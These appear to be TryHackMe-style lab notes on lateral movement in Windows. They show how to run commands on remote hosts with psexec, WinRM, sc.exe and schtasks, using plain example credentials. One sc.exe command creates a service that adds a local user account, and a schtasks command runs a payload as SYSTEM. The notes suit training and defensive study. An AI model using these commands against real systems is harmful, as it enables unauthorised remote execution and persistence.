 # Spawning Processes Remotely

#Executing a process remotely
## Psexec
	-**Ports**: 445/TCP (SMB)
	-**Required Group Memberships**: Administrators

The way psexec works is as follows:
	1. Connect to Admin$ share and upload a service binary. Psexec uses psexesvc.exe as the name.
	2. Connect to the service control manager to create and run a service named PSEXESVC and associate the service binary with C:\Windows\psexesvc.exe.
	3. Create some named pipes to handle stdin/stdout/stderr.

`psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe`

--------------------------------------------------------------------

## Remote Process Creation Using WinRM
	-**Ports**: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
	-**Required Group Memberships**: Remote Management Users

>>Windows Remote Management (WinRM) is a web-based protocol used to send Powershell commands to Windows hosts remotely. Most Windows Server installations will have WinRM enabled by default, making it an attractive attack vector.

`winrs.exe -u:Administrator -p:Mypass123 -r:target cmd`

We can achieve the same from Powershell, but to pass different credentials, we will need to create a PSCredential object:

```shell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Once we have our PSCredential object, we can create an interactive session using the Enter-PSSession cmdlet:
`Enter-PSSession -Computername TARGET -Credential $credential`

Powershell also includes the Invoke-Command cmdlet, which runs ScriptBlocks remotely via WinRM. Credentials must be passed through a PSCredential object as well:
`Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}`

--------------------------------------------------------------------

## Remotely Creating Services Using sc
	-**Ports**:
		-135/TCP, 49152-65535/TCP (DCE/RPC)
		-445/TCP (RPC over SMB Named Pipes)
		-139/TCP (RPC over SMB Named Pipes)
	-**Required Group Memberships**: Administrators

>>We can create a service on a remote host with sc.exe, a standard tool available in Windows. When using sc, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC in several ways:

1. A connection attempt will be made using DCE/RPC. The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.
2. If the latter connection fails, sc will try to reach SVCCTL through SMB named pipes, either on port 445 (SMB) or 139 (SMB over NetBIOS).

We can create and start a service named "THMservice" using the following commands:
```shell
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
```
To stop and delete the service, we can then execute the following commands:
```shell
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```
-------------------------------------------------------------------------

## Creating Scheduled Tasks Remotely

Another Windows feature we can use is Scheduled Tasks. You can create and run one remotely with schtasks, available in any Windows installation. To create a task named THMtask1, we can use the following commands:
```shell
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s TARGET /run /TN "THMtask1" 
```
Finally, to delete the scheduled task, we can use the following command and clean up after ourselves:

`schtasks /S TARGET /TN "THMtask1" /DELETE /F`

